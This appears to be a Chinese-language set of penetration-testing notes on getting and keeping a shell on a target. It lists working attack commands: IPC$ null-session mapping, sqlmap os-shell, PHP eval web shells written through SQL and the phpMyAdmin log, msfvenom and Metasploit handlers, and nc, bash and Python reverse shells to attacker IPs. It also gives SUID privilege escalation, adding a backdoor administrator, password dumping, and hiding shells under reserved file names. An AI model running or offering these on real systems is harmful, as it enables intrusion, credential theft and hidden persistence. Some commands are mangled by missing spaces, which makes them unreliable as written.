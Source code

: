 NTLM 远程验证

sid

ipc$  空连接

​	net use \\\10.96.10.5(ip)\ipc$ "" /user:"" 建立ipc$空连接

​	net use \\\10.96.10.59(ip)\ipc$ "密码" \user:"用户名"

​	net use z:\\\10.96.10.59\c$  如果建立的空连接的且有权限的话，把目标主机的C盘映射到本地的Z盘

ips ids 入侵检测

拿shell

​	sqlmap拿shell（--sql-shell获取数据库的密码）						

​				php+mysql实例<https://www.cnblogs.com/ichunqiu/archive/2018/05/31/9117308.html>

​	–file-read #读取指定文件

​	–file-write #写入本地文件(–file-write /test/test.txt –file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt)

		–sql-shell #执行指定sql命令

​	 –sql-query #执行指定的sql语句(–sql-query “SELECT password FROM mysql.user WHERE user = ‘root’ LIMIT 0, 1″ )

​		1通过注入点发布的网站具有上传功能

​			1.sqlmap.py -u “域名” –-os-shell

​			2.选择网站的语言

​			3.网站发布的绝对路径（1网站是通常在的路径，2指定物理路径，4是强力搜索的路径）

​			4成功后会发布一个网站能够上传木马，什么类型的网站上传什么类型的木马然后在访问木马执行木马

​              	 详细步骤<https://cloud.tencent.com/developer/news/305392>

​		2直接连接数据库

​			1sqlmap.py -d “mysql://root:123456@127.0.0.1:3306/mysql”–os-shell

​			2bash -i >& /dev/tcp/192.168.1.3/80800>&1（选择是64位操作系统还是32位）反弹到服务器192.168.1.3

​			3echo “?php@eval($_POST['chopper']);?” >/data/www/phpmyadmin/1.php   使用菜刀来连接

​	通过msf反弹

​			1.msfvenom -p  php/meterpreter/reverse_tcpLHOST=192.168.1.3 -f raw > test.php

​			2.攻击者监听端口显示回弹的shell 

​			   msfconsole

​			   use exploit/multi/handler

​			   set payload php/meterpreter/reverse_tcp

​			   set LHOST 192.168.1.3  //192.168.1.3为反弹监听服务器IP

​			   show options

​			   exploit

​			3.将test.php上传到192.168.1.2服务器上面，访问后即可获取msf反弹shell

​				http:// 192.168.1.2:8080/test.php

​	通过phpmyadmin生成一句话

​			1先登录到后台

​			2select ‘<?php @eval($_POST[cmd]);?>’INTOOUTFILE ‘/data/www/phpmyadmin/eval.php’

​	nc反弹

·			1.在攻击端创建监听端口  nc -l -p 4444 

​			 2.在被攻击端执行反弹shell nc -e /bin/bash 192.168.1.2 4444

​	使用put方法

​			1.在网页目录的位置上写上传文件的名字，在数据部分写一句话木马，或大码

​			2.直接使用菜刀连接，大码的话直接访问页面

​			

​			1 put /1.txt

​			2 COPY /web100/6/1.txt HTTP/1.1

			      Destination:  http://10.6.21.98/web100/6/1.asp;.txt

​			   Overwrite: T

​	bash	

​			bash -i >& /dev/tcp/192.168.1.2/4444 0>&1

​	phpmyadmin 

​				SHOWVARIABLES LIKE”general%”  日志写入一句话

​			   setglobal general_log = “ON”；  开启日志

​	                   SET globalgeneral_log_file=’C:/phpStudy/PHPTutorial/WWW/1.php’  日志的保存位置和日志的名称

​			   select’<?php eval($_POST[hack]);?>’;    上传一句话

​			  setglobal general_log = “OFF”；关闭日志

​			  上传wce工具进行密码抓取  

​			

拿到shell后

​	先使用 whoami 查看自己的用户发现自己的权限

​	磁盘映射 

​			net use X: \\\172.17.0.1\D$\test password /USER:Administrator

​	net user

​			高权限：

​					1.如果权限是高权限的话直接使用net user ssx ssx /add

​											     net localgroup administrators ssx /add

​			低权限：

​					1.查看文件内容找到连接数据库的文件 

​							1.1找到连接数据库的文件  发现账号密码 使用sa权限的数据库 执行dos命令

​					2.能执行cmd命令的上传自已的木马程序 使用cmd命令执行

​					3centos内核版本信息>2.6.22可以使用脏牛提权

​					4suid提权

​							4.find / -perm -u=s -type f 2>/dev/null

​								find：

​									/usr/bin/find -exec whoami(命令) \;

​					                 4.2python环境提权（python进去了是root权限  反弹root权限的shell）

					/usr/bin/find -exec python -c  'import       socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.25",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'                         详情https://blog.csdn.net/qq_36119192/article/details/84872644
 							在攻击端 nc -lvp 4444 接收 为root权限

​				    5.使用宝塔windows面板提权

隐藏shell

​		                              1.       windows不能以               aux|prn|con|nul|com1|com2|com3|com4|com5|com6|

​                                                        com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9的名字保存文件 

​							使用                       copy   D:\shell.asp   \\\\.\D:\aux.shell.asp     能够命名文件

​                                              2         利用clsid隐藏

​								md \\.\d:\com1.{20D04FE0-3AEA-1069-A2D8-08002B30309D}

